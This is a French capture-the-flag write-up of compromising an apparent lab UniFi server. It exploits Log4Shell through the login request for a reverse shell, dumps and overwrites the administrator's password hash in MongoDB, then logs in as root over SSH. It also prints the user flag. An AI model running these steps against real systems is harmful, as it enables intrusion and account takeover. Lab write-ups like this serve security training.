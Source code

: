 
# Découverte
On identifie les ports ouverts sur la machine :
- 22 : ssh
- 6789
- 8080
- 8443

Sur le port 8443, une page https est présente et on y voit une page de connexion Unify en version 6.4.54.

Cette version est vulnérable à la CVE-2021-44228, qui est une CVE de Log4J.

# Exploitation de Log4J
Blog : https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

On fait une fausse tentative de connexion et on intercepte la requête avec Burp.
On observe qu'un requête POST /api/login est faite.

On exploite le paramètre remember en suivant le blog :
![[Pasted image 20231125173552.png]]

Lorsque cette requête est faite, le serveur va exécuter le code jndi et va faire une requête LDAP sur notre machine (ip 10.10.15.0).

On peut observer que notre machine reçoit la requête LDAP sur le port 1389 avec tcpdump :
```bash
tcpdump -i tun0 port 1389
```

Ensuite, on utilise l'exploit proposé sur le blog qui consiste à lancer un serveur sur notre machine qui écoutera sur le port 1389 et répondra à la requête venant du serveur vulnérable avec une payload permettant d'obtenir un reverse shell.
On lance un netcat en parallèle puis on refait la requête depuis Burp.

# Élévation de privilège
On a reverse shell avec les privilège de l'utilisateur `unifi`.
Déjà on améliore son shell pour avoir un shell interactif avec la commande suivante :
```bash
script /dev/null -c bash
```

## Flag user
En se promenant dans les répertoires, on trouve le flag utilisateur
```bash
cat ../../../home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

## MongoDB
La commande `ps aux` nous permet de découvrir qu'un service MongoDB tourne sur le port 27117.
On se connecte à MongoDB :
```bash
mongo --port 27117

> help
...
> use ace                    # ace est le nom de la DB par défaut de Unifi
switched to db ace
> db.help()
...
> db.getCollectionNames()    # Les tables no-SQL s'appelent des collections
account
admin
...
# On liste les utilisateurs (qui sont dans la collection admin)
> db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", "time_created" : NumberLong(1640900495), ...

# On remarque que l'on récupère le hash SHA-512 du compte administrateur
# On change le mot de passe du compte administrateur par "password"
> db.admin.update({ "name" : "administrator" }, { $set : { "x_shadow" : "$6$ybLXKYjTNj9vv$dgGRjoXYFkw33OFZtBsp1flbCpoFQR7ac8O0FrZixHG.sw2AQmA5PuUbQC/e5.Zu.f7pGuF7qBKAfT/JRZFk8/" } } )
```
On a alors accès à la console Unifi en tant qu'administrateur !

## Devenir root
Sur l'interface d'administration de Unifi, il y a une section "Device Authentication" des identifiants SSH de l'utilisateur root.
On se connecte en SSH en tant que root et on flag !

